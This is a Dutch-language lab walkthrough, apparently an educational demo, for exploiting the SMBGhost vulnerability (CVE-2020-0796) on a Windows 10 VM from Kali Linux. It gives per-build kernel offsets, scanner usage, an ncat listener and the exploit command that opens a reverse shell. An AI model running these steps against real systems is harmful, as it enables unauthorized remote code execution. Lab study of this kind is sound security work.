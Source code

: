 # handleiding voor demo

## tabel met waarden

| VM            | IP Address   |
| ------------- | ------------ |
| Windows 10    | 192.168.1.17 |
| Kali Linux VM | 192.168.1.20 |

### Inleiding

Voordat wij starten hebben we enkele github repositories nodig :

- https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master
- https://github.com/ButrintKomoni/cve-2020-0796
- https://github.com/jiansiting/CVE-2020-0796-Scanner (deze hebben we niet echt nodig, maar is er toch voor zekerheid)

### stap x

We gaan eerst alles in onze Kali Linux configureren. We zouden eerst willen controleren of onze slachtoffer ( Windows 10 19H1 18362.356 ).

Er zijn verschillende versies van Windows 10 waarop dit mogelijk is en voor elke versie hebben we eerst hun offsets nodig. De offsets zijn specifieke waarden dat gebruikt moeten worden in onze main Python script ('SMBLeedingGhost.py') voor de exploit. De offsets worden dan gebruikt om de main script aan te passen om een successvolle RCE uit te voeren.

calculate_target_offsets.bat is een script dat die offsets kan berekenen en die gelden voor elke Windows 10 die hetzelfde versie runt. Hier zijn enkele offset-waarden:

| Windows 10 (Version 1909) Builds | V10.0.18363.418 | V10.0.18363.535 - V10.0.18363.628 | V10.0.18363.693 | V10.0.18363.752 | V10.0.18363.365 |
| -------------------------------- | --------------- | --------------------------------- | --------------- | --------------- | --------------- |
| srvnet!SrvNetWskConnDispatch     | 0x2D170         | 0x2D170                           | 0x2D170         | 0x2D170         | 0x2D170         |
| srvnet!imp_IoSizeofWorkItem      | 0x32210         | 0x32210                           | 0x32210         | 0x32210         | 0x32210         |
| srvnet!imp_RtlCopyUnicodeString  | 0x32288         | 0x32288                           | 0x32288         | 0x32288         | 0x32288         |
| nt!IoSizeofWorkItem              | 0x12C380        | 0x12C400                          | 0x6D7A0         | 0x12C410        | 0x12C370        |
| nt!MiGetPteAddress               | 0xBADC8         | 0xBA9F8                           | 0xF1D28         | 0xBA968         | 0xBAFA8         |

Voor onze versie (18363.365) hebben we deze nodig :

- 'srvnet!SrvNetWskConnDispatch': 0x2D170,
- 'srvnet!imp_IoSizeofWorkItem': 0x32210,
- 'srvnet!imp_RtlCopyUnicodeString': 0x32288,
- 'nt!IoSizeofWorkItem': 0x12C370,
- 'nt!MiGetPteAddress': 0xBAFA8

Wat we nu moeten doen is onze Kali Linux openen en ifconfig uitvoeren om te zien wat onze IP address precies is. Noteer dit omdat we het straks nodig zullen hebben.
We clonen dan de volgende github repository in onze Desktop :

1. `cd Desktop`
2. `git clone https://github.com/ButrintKomoni/cve-2020-0796` (dit is onze scanner)
3. `git clone https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master` (dit is onze RCE exploit)

Je directory zou dan zo moeten uitzien:

```
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ ls
CVE-2020-0796-RCE-POC  cve-2020-0796
```

En verder van binnen ...

```
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ tree
.
├── CVE-2020-0796-RCE-POC
│   ├── README.md
│   ├── SMBleedingGhost.py              - > dit is onze main script voor RCE
│   ├── calc_target_offsets.bat
│   ├── demo.gif
│   ├── smbghost_kshellcode_x64.asm
│   └── tools
│       ├── cdb.exe
│       ├── dbghelp.dll
│       ├── dumpbin.exe
│       ├── link.exe
│       ├── msvcp140.dll
│       ├── symsrv.dll
│       ├── tbbmalloc.dll
│       ├── vcruntime140.dll
│       └── vcruntime140_1.dll
└── cve-2020-0796
    ├── README.md
    └── cve-2020-0796-scanner.py            -> dit is onze scanner

4 directories, 16 files
```

We navigeren eerst naar cve-2020-0796 om onze scanner te gebruiken. Onze windows heeft als ip : 192.168.1.17, dus dat gebruiken wij als parameter voor de scanner en je komt dit uit:

```
┌──(osboxes㉿osboxes)-[~/Desktop/cve-2020-0796]
└─$ python3 cve-2020-0796-scanner.py 192.168.1.17
Vulnerable
```

Gebruik:

- python3 cve-2020-0796-scanner.py {TARGET IP ADDRESS}

We zien dat het vulnerable is en zo kunnen we verder gaan met onze script.

Voor onze RCE uit te voeren moeten we dus eerst enkele dingen in orde hebben / uitvoeren.

1. juiste target offsets die passen voor slachtoffer zijn windows versie
2. we moeten in een terminal (op onze kali linux) `ncat -lvp <port>` runnen, dit zal onze toegang zijn naar onze windows (dit kan zijn ncat -lvp 1234)
3. we voeren `SMBleedingGhost.py` uit als volgt : `SMBleedingGhost.py <target_ip> <reverse_shell_ip> <reverse_shell_port>`

`target_ip` is onze windows 10 slachtoffer, 192.168.1.17 dus. `reverse_shell_ip` en `reverse_shell_port` zijn de ip address en poort waarop ncat luistert

in ons geval zou onze code op zoiets lijken dus : `python3 SMBleedingGhost.py 192.168.1.17 192.168.1.20 1234`

Na dit zal het eventjes duren en proberen om in de systeem te geraken, als alles goed gelukt is, zal in je ncat terminal waarop er geluisterd wordt veranderen naar een windows 10 shell waarbij je toegang hebt en willekeurige code kan uitvoeren.

![alt text](images/image-2.png)

![alt text](images/image-1.png)

![alt text](images/image-3.png)
